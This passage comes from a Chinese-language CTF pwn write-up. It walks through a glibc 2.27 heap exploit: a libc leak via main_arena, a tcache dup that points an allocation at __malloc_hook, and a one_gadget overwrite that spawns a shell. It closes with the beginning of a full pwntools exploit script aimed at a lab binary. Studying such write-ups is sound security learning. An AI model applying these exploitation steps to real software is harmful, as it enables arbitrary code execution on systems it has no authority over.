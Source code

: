    ```python
   libc_base = addr-(main_arena_offset+0x60)
   success("libc_addr==>"+hex(libc_base))
   malloc_hook_addr = libc.symbols["__malloc_hook"] + libc_base
   success("malloc_hook_addr==>"+hex(malloc_hook_addr))
   ```

   ![image-20240720155511138](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407201555324.png)

   ![image-20240720155711979](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407201557668.png)

3. 再申请一个size为0x20的chunk，其会与chunk1重叠，再释放掉这两个chunk,就实现了tcache dup：

   ```python
   #tcache dup
   add(0x18,b"tcache dup") #2
   free(0)
   free(2)
   add(0x18,p64(malloc_hook_addr)) #0 将next指针改为malloc_hook地址，再次申请就能申请到该地址
   
   add(0x18,b"d")  #2 申请到malloc_hook作为cunk
   ```

   ![image-20240720160225161](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407201602323.png)

   修改next指针：

   ![image-20240720160428828](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407201604993.png)

4. 最后像malloc_hook中写入onegadget地址：

   ```python
   exeve_addr = one_gadget[2]+libc_base
   success("exeve_addr==>"+hex(exeve_addr))
   payload = p64(exeve_addr)
   add(0x18,payload)
   add(0x18,b"get shell")
   p.sendline(b"cat flag")
   p.interactive()
   ```

   ![image-20240720160635035](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407201606165.png)

5. 完整的EXP：

   ```python
   from pwn import *
   from LibcSearcher import *
   context(os='linux', arch='amd64', log_level='debug')
   
   def debug():
       print(proc.pidof(p))
       pause()
   
   # p = remote("node5.buuoj.cn",28220)
   p = process("./pwn")
   libc = ELF('./libc-2.27.so')
   elf = ELF("./pwn")
   
   def add(size,content):
       p.sendline(b'1')
       p.sendline(str(size).encode())
       p.sendline(content)
   
   def show(index):
       p.sendline(b'2')
       p.sendlineafter(b':',str(index).encode())
   ```